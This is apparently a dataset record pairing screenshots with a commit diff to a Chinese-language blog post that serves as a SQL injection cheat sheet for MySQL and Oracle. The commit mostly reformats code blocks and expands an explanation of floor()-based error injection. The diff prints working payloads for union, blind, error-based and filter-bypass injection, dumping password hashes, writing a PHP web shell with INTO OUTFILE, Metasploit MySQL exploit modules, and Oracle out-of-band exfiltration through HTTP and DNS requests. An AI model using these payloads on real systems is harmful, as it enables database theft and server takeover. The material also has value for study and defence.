

Before and after one commit to alivk353/alivk353.github.io, a Jekyll site: the page built from _posts/2018-04-23-SQL注入小结.md, in a window 1280 px wide and 1400 px high, scrolled down 5290 px. Shown: the whole window, without its empty margins (231-1048 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
update07

````diff
--- a/_posts/2018-04-23-SQL注入小结.md
+++ b/_posts/2018-04-23-SQL注入小结.md
@@ -1,6 +1,6 @@
 ---
 layout: post
-title: "SQLin"
+title: "SQLin小结"
 comments: false
 description: ""
 keywords: "mysql oracle"
@@ -14,27 +14,37 @@ keywords: "mysql oracle"
 
 在自带数据库库information_schema表schemata列SCHEMA_NAME查询库名
 
-    'union select schema_name from information_schema.schemata
-
+```sql
+'union select schema_name from information_schema.schemata
+```
 
 table 表名查询 information_schema.tables
 
-    'union select tanle_name from information_schema.tables where table_schema = "数据库名字"
+```sql
+'union select tanle_name from information_schema.tables where table_schema = "数据库名字"
+```
 
 字段名字 information_schema.columns column_name
 
-    'union select column_name from information_schema.columns where  table_name="表名" and table_schema="xxx"
+```sql
+'union select column_name from information_schema.columns where  table_name="表名" and table_schema="xxx"
+```
 
 mysql.user 用户口令哈希
 
-    select user,password from mysql.user
+```sql
+select user,password from mysql.user
+```
 
 ***
 
 ## 写文件
 
-    select '<?php @eval($_POST[cmd]);?>' INTO OUTFILE 'D:/phpStudy/WWW/cmd.php';
-    ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
+```sql
+select '<?php @eval($_POST[cmd]);?>' INTO OUTFILE 'D:/phpStudy/WWW/cmd.php';
+ ```
+
+ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
 
 > 官方文档说明 --secure-file-priv=name Limit LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE() to files within specified directory
 
@@ -44,8 +54,7 @@ mysql.user 用户口令哈希
 
 * mysql --secure-file-priv=/xx/xx 限定输出目录为/xx/xx
 
-```
-
+```bash
 mysql> show global variables like '%secure%';
 
 +------------------+-------+
@@ -62,7 +71,7 @@ mysql> show global variables like '%secure%';
 
 开启general_log
 
-```
+```sql
 
 show global variables like "%general%";
 show global variables like "%secure%";
@@ -75,7 +84,7 @@ SELECT '<?php assert($_POST["cmd"]);?>';
 
 ## 布尔盲注
 
-### 比较时存在MYSQL隐式类型转换。
+### 比较时存在MYSQL隐式类型转换
 
 * 如果两个参数比较，有至少一个NULL，结果就是NULL，除了是用NULL比较NULL 会返回1。不做类型转换。
 * 两个参数都是字符串，按照字符串比较。不做类型转换
@@ -86,13 +95,13 @@ SELECT '<?php assert($_POST["cmd"]);?>';
 字符串与数字比较，会将字符串转换成浮点数。转换结果为0 ，如果数字开头会从数字部分截断进行比较。
 通常在现实中注入点一般为字符注入，少有数字注入点，如；
 
-     select pass form user where name  = "xxxxx";
-
+ ```sql
+ select pass form user where name = "name";
+```
 
 这时输入的数字会转化为字符串：
 
-```
-
+```shell
 mysql> select * from user where name=0;
 +----+--------+--------+
 | Id | name   | pass   |
@@ -109,8 +118,8 @@ Empty set (0.00 sec)
 ```
 
 可以用运算符+,-,*,/,% 位运算符&,|,^ 构造数字：
-```
 
+```shell
 mysql> select '6'+'5';
 +---------+
 | '6'+'5' |
@@ -123,11 +132,12 @@ mysql> select '6'+'5';
 ### 盲注常用函数
 
 * ascii() 返回值为字符串str 的最左字符的数值。假如str为空字符串，则返回值为 0 。假如str 为NULL，则返回值为 NULL。
-* BIT_LENGTH(str)返回值为二进制的字符串str 长度。version(), pi(), pow(),
+* BIT_LENGTH(str)返回值为二进制的字符串str 长度。
+* version(), pi(), pow(),
 * char(),将每个参数N理解为一个整数，其返回值为一个包含这些整数的代码值所给出的字符的字符串。NULL值被省略。
 * substring(),函数 substring(str,pos,len) 取pos起的len长：不使用逗号 substring(("string" from 1))
 
-```
+```shell
 mysql> select substring("abc",1,1);
 +----------------------+
 | substring("abc",1,1) |
@@ -140,14 +150,14 @@ id=1 and substring(user(),1,1) = "r";
 * concat(str1,str2,...),参数为字符串，返回参数连接产生的字符串，如有任何一个参数为NULL ，则返回值为 NULL。
 
 * group_concat(),将group by 产生的分组内的值连接起来并返回字符串。
-* left(str,len),返回str左面长度为len的字符串。
+* left(str,len),返回str左面长度为len的字符串.
 * rand(),产生一个0到1之间的随机数。order by rand() 可以随机排序。
 
 ### 相关绕过
 
 基础字符：
 
-```
+```sql
 true=1
 floor(pi())=3
 ceil(pi())=4
@@ -159,13 +169,13 @@ ceil(version())=6
 还有一些可以利用括号或者注释  and，or：||，&&  union select：
 利用括号:
 
-```
+```sql
 'and(true)like(false)union(select(pass)from(users))，
 ```
 
 方括号
 
-```
+```sql
 union [all|distinct] select pass from users#，
 union%a0select pass from users，
 ```
@@ -173,7 +183,7 @@ union%a0select pass from users，
 注释，常见注释符有：//，--，/**/，--+，-- -，可以使用注释来规避空格
 内联注释：/!*XXXX*/；只存在mysql中。
 
-```
+```sql
 id=-15 %55nION/**/%53ElecT 1,2,3,4
 id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3
 ```
@@ -202,7 +212,7 @@ select,and,&：
 当注入点存在与limit子句时，union联合查询不能在order by子句之后。
 补充select 语法：
 
-```
+```sql
 SELECT
     [ALL | DISTINCT | DISTINCTROW ]
       [HIGH_PRIORITY]
@@ -228,21 +238,45 @@ SELECT
 在limit后可以接两个函数 into 和procedure，into需要写文件的权限，且默认为关闭。
 procedure analyse() 可以结合报错注入利用。
 
-
 ***
 
 ## 时间盲注
 
-sleep()
-BENCHMARK()
+### sleep()
+
+### BENCHMARK()
+
+***
 
 ## 报错注入
 
 ### 通过floor报错
 
-通过floor报错的方法来爆数据的本质是group by语句的报错。group by语句报错的原因是floor(random(0)*2)的不确定性，即可能为0也可能为1.
+通过floor报错的方法来爆数据的本质是group by语句的报错,报错的关键在于`floor(rand(0)*2)`的值在有些情况下会被计算多次,`floor(rand(0)*2)`的计算结果:
 
+```sql
+//floor(rand(0)*2被计算多次的结果是定性的,为011 011 011...
++------------------+
+| floor(rand(0)*2) |
++------------------+
+|                0 |
+|                1 |
+|                1 |
+|                0 |
++------------------+
 ```
+
+mysql在执行`select count(*) from charset_latin1 group by floor(rand(0)*2);`:即计算每个分组内查询到的条数,就要借助一个临时虚拟表来完成:
+
+1.首先根据分组字段的第一个值作为临时虚拟表的主键,并记录`count(*)`为1
+
+2.判断分组字段的地第二条数据的值在临时虚拟表主键是否存在,不存在则新增一个主键,赋值`count(*)`为1;存在则`count(*)`+1
+
+在`floor(rand(0)*2)`作为group_by的依据时,在循环读取每一行的新数据是会计算1次,拿着计算的值到临时表中比对,如果不存在则在计算1次生成主键字段的一行,这两次计算的结果不一致就会导致向主键字段插入相同的值,当然会报错
+
+floor报错的关键在于count(*),rand(0),group by三点缺一不可
+
+```sql
 and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);
 
 and (select count(*) from (select 1 union select null union select  !1)x group by concat((select table_name from information_schema.tables  limit 1),floor(rand(0)*2)));
@@ -252,19 +286,21 @@ and (select count(*) from (select 1 union select null union select  !1)x group b
 
 extractValue()使用时有两个参数，在注入时第一个参数为1，第二个参数为回显的数据。如果在报错数据不连接其他字符，数据可能会显示不完整。
 
-```
-
+```sql
 mysql> select extractvalue(1,concat(0x3a,version())); //有连接字符
 ERROR 1105 (HY000): XPATH syntax error: ':5.5.53'
+
 mysql> select extractvalue(1,version()); //无连接字符
 ERROR 1105 (HY000): XPATH syntax error: '.53'
+
 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
 ```
 
 ### updateXML报错
 
 updateXML()函数有3个参数，注入过程中第1，3个参数可以为1.第二个参数为要报错的数据，也需要连接其他字符才能得到完整数据。
-```
+
+```sql
 语句：
 and 1=(updatexml(1,concat(0x3a,(select user())),1))
 ```
@@ -288,7 +324,7 @@ order by子句后面参数为数字或字段名，
 
 利用：
 
-```
+```sql
 利用regexp
 /?order=(select+1+regexp+if(1=1,1,0x00)) 正常
 /?order=(select+1+regexp+if(1=2,1,0x00)) 错误
@@ -318,7 +354,7 @@ order by子句后面参数为数字或字段名，
 * mysql_hashdump导出用户密码hash值
 * mof提权模块：
 
-```
+```sql
 use exploit/windows/mysql/mysql_mof
 use exploit/windows/mysql/mysql_start_up
 use exploit/windows/mysql/scrutinizer_upload_exec
@@ -491,6 +527,7 @@ ORA-06512: 在 "SYS.DBMS_UTILITY", line 1218
 ### HTTP
 
 * utl_http.request()
+
 ```sql
 ' and 1=utl_http.request('http://127.0.0.1:8086/'||(select banner from sys.v_$version where rownum=1)) --
 
@@ -499,6 +536,7 @@ ORA-06512: 在 "SYS.DBMS_UTILITY", line 1218
 ### DNS
 
 * utl_inaddr.get_host_address()
+
 ```sql
 ' and (select utl_inaddr.get_host_address((select user from dual)||'.youhost') from dual)is not null--
 ```
@@ -509,7 +547,7 @@ ORA-06512: 在 "SYS.DBMS_UTILITY", line 1218
 
 * 使用decode()函数进行盲注：
 
-```
+```sql
 decode(条件,值1,返回值1,值2,返回值2,...值n，返回值n,缺省值)
 
 if （条件==值1）
````
Also changed, not shown: _posts/2019-07-22-php反序列化漏洞小结.md (+1 -1 lines), _posts/2019-08-03-PHP代码审计相关函数.md (+35 -0 lines), _posts/2019-08-05-对于SQLin的补充.md (added, +131 -0 lines), _posts/2019-08-06-XXE小结.md (added), image/sqlinbc.png (added).
